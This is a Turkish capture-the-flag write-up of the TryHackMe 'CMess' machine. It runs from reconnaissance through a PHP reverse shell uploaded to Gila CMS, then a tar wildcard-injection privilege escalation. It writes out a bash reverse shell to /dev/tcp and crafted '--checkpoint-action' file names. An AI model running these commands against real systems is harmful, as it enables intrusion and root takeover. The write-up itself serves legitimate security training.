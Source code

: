 ```yaml
---
title: "THM CMess Write Up"
date: 2020-09-15T20:03:12+03:00
draft: false
toc: true
images: 
tags: [Tryhackme,write-up,gobuster,nmap,sudo,crontab,tar,wfuzz,wilcard İnjection,CMS] 
categories: [Write-up]
author : "Barcode"
Description : "Merhaba, bu yazımda TryHackMe platformunda yer alan, orta seviye zorlukta olan CMess adlı makinanın çözümünden bahsedeğim. Hatalı yada ilave açıklama gerektiren yerler için yorum bırakabilirsiniz. Keyifli okumalar..."
cover : images/thm/cmess/cover.png
  
---
```

{{< text >}}
Merhaba, bu yazımda TryHackMe platformunda yer alan, orta seviye zorlukta olan CMess adlı makinanın çözümünden bahsedeğim. Hatalı yada ilave açıklama gerektiren yerler için yorum bırakabilirsiniz. Keyifli okumalar...
{{< /text >}}

## 1. Keşif Aşaması

Nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

```bash
sudo nmap -sV -sC 10.10.190.58 
```


{{< image src="/images/thm/cmess/nmap.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}


{{< text >}}
<br>
<i style="color:yellow"><b> cmess.thm </b></i> alan adı <i style="color:yellow"><b> /etc/hosts </b></i> dosyasına dns çözümlemesi için eklenmesi, makina tasarımcı tarafından istenmektedir. 
{{< /text >}}

```terminal
    sudo nano /etc/hosts
    --------------------
    ##Ekleme
    10.10.173.46    cmess.thm
```
{{< text >}}
Tarayıcı ile web servisine istek atılır. İçerik yönetim yazılımlarından olan Gila CMS web sayfası açılmaktadır.
{{< /text >}}
{{< image src="/images/thm/cmess/website.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Web dizininde yer alan dosyalar ve klasörlerin tespiti için gobuster kullanılır.

```terminal
gobuster dir -u http://10.10.190.58 -w /usr/share/wordlists/dirb/common.txt 
```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.190.58
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/05 09:53:31 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/0 (Status: 200)
/01 (Status: 200)
/1 (Status: 200)
/1x1 (Status: 200)
/about (Status: 200)
/About (Status: 200)
/admin (Status: 200)
/api (Status: 200)
/assets (Status: 301)
/author (Status: 200)
/blog (Status: 200)
/category (Status: 200)
/feed (Status: 200)
/fm (Status: 200)
/Index (Status: 200)
/index (Status: 200)
/lib (Status: 301)
/log (Status: 301)
/login (Status: 200)
/robots.txt (Status: 200)
/search (Status: 200)
/Search (Status: 200)
/server-status (Status: 403)
/sites (Status: 301)
/src (Status: 301)
/tag (Status: 200)
/tags (Status: 200)
/themes (Status: 301)
/tmp (Status: 301)
===============================================================
2020/09/05 09:54:20 Finished
===============================================================

```
{{< text >}}
Nmap ve gobuster taramalarında robots.txt dosyası içerisinde <i style="color:yellow"> /src, /themes, /lib </i> dizin girdileri yer almaktadır. Ayrıca /login dizinine girildiğinde giriş paneli görülmektedir.
{{< /text >}}

{{< image src="/images/thm/cmess/login.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
{{< text >}}
Web dizininde yapılan alt dizin taramalarında herhangi bir kullanıcı adı ve parola bilgileri tespit edilememiştir. Wfuzz aracı ile subdomain taraması yapılarak alt alan adları tespit edilmeye çalışılır.Wordlist olarak SecLists listeler topluluğu içerisinde yeralan en çok kullanılan dns listesi kullanılır.
{{< /text >}}

**SecList Kurulumu**

```bash
##Zip Olarak Kurulumu
wget -c https://github.com/danielmiessler/SecLists/archive/master.zip -O SecList.zip \
  && unzip SecList.zip \
  && rm -f SecList.zip

##Git İle Kurulumu
git clone https://github.com/danielmiessler/SecLists.git
```


```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm"  -H "Host: FUZZ.cmess.thm" --hw 290
```
{{< image src="/images/thm/cmess/wfuzz.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
{{< text >}}


Tespit edilen subdomain önce <i style="color:yellow"> /etc/hosts </i> dosyasına subdomain.cmess.thm şekilde olacak şekilde eklenir ve adrese gidilir. İçerisinde bir kullanıcının destek ekibi ile yaptığı kullanıcı parola sıfırlama işlemine ait yazışmalar yer almaktadır. 
{{< /text >}}

{{< image src="/images/thm/cmess/passrecovery.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
{{< text >}}
Kullanıcıya ait giriş bilgileri ile login panelinden giriş yapılır. CMS yönetim paneli açılmaktadır.
{{< /text >}}

{{< image src="/images/thm/cmess/webadmin.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Web panelinden shell almak için soldaki  **Content -> File Manager -> File Upload**  sekmesi takip edilerek [reverse shell](https://github.com/pentestmonkey/php-reverse-shell) kodlarının yer aldığı php sayfası upload edilir. Upload edilen dosya **src/assets** klasörü altında yer almaktadır.

{{< image src="/images/thm/cmess/upload.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}

## 2. Erişim Sağlanması

```terminal
nc -lvp 4444
```

{{< text >}}
Upload ettiğimiz reverse shell dosyasında ayarlanan port dinlenmeye başlanır. Tarayıcı üzerinde reverse.php dosyası çağırılır ve shell bağlantısı gerçekleştirilir.
<br><br>
{{< /text >}}

{{< image src="/images/thm/cmess/nc.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}

**www-data** kullanıcısı ile sisteme erişim sağladığından yetki yükseltmek için [LinEnum betiği](https://github.com/rebootuser/LinEnum) çalıştırlarak bilgi toplanır. Elde edilen bilgilerde __*/opt*__ dizini altında gizli bir password yedek dosyası görülmektedir. İçeriğine bakıldığında *andres* kullanısına ait oturum parolası elde edilir.


{{< image src="/images/thm/cmess/userpass.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}


```bash
 su andres 
 ```
  komutu ile andres kullanıcısı ile oturum açılır. Daha sonra /home/andres dizininde yer alan user.txt dosyası okunur.

{{< image src="/images/thm/cmess/userflag.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}

## 3. Yetki Yükseltme

Yetki yükseltme aşamasında zamanlanmış görevler, suid ve sgid biti aktif dosyalar, alınmış yedekler ve zayıf dosya yetkileri vb. kontrol edilir. Testlerde yaygın olarak sistem hakkında bilgiler [LinEnum betiği](https://github.com/rebootuser/LinEnum) kullanılarak elde edilir. Crontab içeriğinde tar uygulaması ile zamanlamış yedekleme işlemi dikkat çekmektedir. Backup klasöründeki herşey /tmp klasörü altına yedeklenmektedir.

{{< image src="/images/thm/cmess/crontab.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}

Tar uygulamasında wilcard injection metodu ile yetki yükseltilebilmektedir. Linux sistemlerde joker karakter (wildcard) olarak kullanılan çeşitli karakterler vardır. Bunlardan bazıları ```{* , ?, [], -, ~ }``` .
Bunlar işlem yapılmadan önce kabuk tarafından yorumlanır. Tar ile uygulamasına bakacak olursak,yedeklenecek klasör içerisinde 3 adet dosya oluşturulur.
  1. Çalıştırılacak kabuk dosyası
  2. Tar uygulamasının parametre olarak alacağı 2 adet dosya
```bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.8.97.33/6666 <&1'" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Backup klasör içeriğine bakıldığında oluşturulan dosyalar görülmektedir.

{{< image src="/images/thm/cmess/tarwilcard.png" alt="Barcode" position="center" style="border-radius: 8px;" >}}


Tar uygulaması çalıştığında - - ile başlayan dosyaları parametre olarak alacak ve shell.sh dosyasını çalıştıracaktır. Shell dosyasında ayarlanan port dinlemeye alınır ve yedekleme çalıştığında root yetkisi ile oturum elde edilir.


```terminal
─[barcode@parrot]─[~]$ nc -lvp 6666
listening on [any] 6666 ...
connect to [10.8.97.33] from cmess.thm [10.10.173.46] 46366
bash: cannot set terminal process group (990): Inappropriate ioctl for device
bash: no job control in this shell
root@cmess:/home/andre/backup# cd
root@cmess:~# ls
root.txt
root@cmess:~# cat root.txt
**************************
root@cmess:~# 
```





